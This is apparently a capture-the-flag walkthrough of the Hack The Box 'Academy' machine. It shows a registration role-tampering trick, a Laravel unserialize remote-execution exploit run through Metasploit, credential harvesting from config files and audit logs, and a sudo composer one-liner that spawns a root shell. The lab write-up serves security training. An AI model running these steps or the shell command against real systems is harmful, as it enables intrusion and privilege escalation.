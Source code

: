 1, recon
ports scan: 
	22/tcp ssh
	80/tcp http `redirect to http://academy.htb/`
	3306/tcp mysql
page check
	From original `index.php`, we only get the `/login.php`and `register.php`
	When we login with a normal account, there would nothing useful for us, but `/admin` is existed.
web-contents enumerate
	By using fuff to enumerate the existed url, there is nothing useful for us.And we check the sub-domains, there is nothing for us.

Let's check the sql-injection:
	In this place, we could not find any error sentences or output, so we could not know is there any sql injection.

This time we gonna try to use burp to catch the package of response.
The submitted information is very funny
`uid=wither&password=1234567&confirm=1234567&roleid=0`
If we change the roleid to 1, we can create a admin account for us.
![](Pasted%20image%2020240903090732.png)

In this place we get another sub-domain `dev-staging-01.academy.htb`

We get into a debug or developer platform, and we can get so much source codes and credits.

```
|DB_CONNECTION|"mysql"|
|DB_HOST|"127.0.0.1"|
|DB_PORT|"3306"|
|DB_DATABASE|"homestead"|
|DB_USERNAME|"homestead"|
|DB_PASSWORD|"secret"|
```

I guess `secret` would be the password for user `homestead`.Sadly, it does not.
Come to the error message 
`The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied`

The various logs above suggest this is running the Laravel PHP framework.

This service is `Laravel PHP framework` , let's check the vulnerability of that.
`PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution`
![](Pasted%20image%2020240903091836.png)

Then we just need to use MSF to get the `www-data` shell.

Let's enumerate the configs and secret files.
There is a useful file `/var/www/html/academy/.env`
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
We get the database credits and let us enumerate it, but we cannot check the database
`ERROR 1045 (28000): Access denied for user 'dev'@'localhost' (using password: YES)`
So let's check the `/etc/passwd` and find useful users.
```
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
```
By checking their directory, only user `cry0l1t3` is valid and luckily we can use the previous password to login.

In user `egre55` directory, there is a funny file
`.sudo_as_admin_successful`
and user `mrb3n` would also useful because of 
![Pasted image 20240903090732.png](Pasted image 20240903090732.png)

When I check id 
`uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)`
We found adm
`According to the docs, this group:`
```
Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.
```

After a bit of time running different grep commands across all the log data, I came across aureport, a tool that will parse the audit logs for various things. This page suggests the the --tty option can show plaintext passwords. I gave it a try, and it dumped mrb3n’s password on line 2:
```
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

This would be the password of user `mrb3n`
When we check `sudo -l`, finally we find something 
```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

There would be a tricky thing: we can find the hints from GTFOBins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
